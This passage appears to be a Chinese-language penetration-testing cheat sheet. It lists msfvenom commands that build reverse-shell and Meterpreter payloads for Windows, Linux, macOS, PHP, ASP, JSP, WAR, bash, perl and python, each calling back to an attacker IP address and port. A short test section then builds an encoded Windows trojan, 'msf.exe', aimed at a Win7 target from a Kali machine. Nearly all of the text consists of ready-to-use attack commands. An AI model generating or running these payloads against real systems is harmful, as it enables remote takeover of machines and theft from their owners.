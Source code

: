 	msfvenom --platform windows -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.2.130 LPORT=4444  -i 3 -e x86/shikata_ga_nai -f exe -o hack4.exe

* linux

	msfvenom -lp | grep linux | grep reverse_tcp | grep x86

	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.2.130 LPORT=4444 -f elf >shell.elf

* mac

	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

* php

	msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.2.130 LPORT=4444 raw > shell.php

* asp

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

* aspx

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f aspx > shell.aspx

* jsp

	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

* war

	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

* bash

	msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On>-f raw > shell.sh

* perl

	msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

* python

	msfvenom -p python/meterpreter/reverser_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

## 测试

靶机： win7 x64 （192.168.2.138） 

攻击机： kali  (192.168.2.131)

生成木马 msf.exe：

	msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.2.131 LPORT=4444 -b "\x00" -e x64/shikata_ga_nai -f exe -o msf.exe
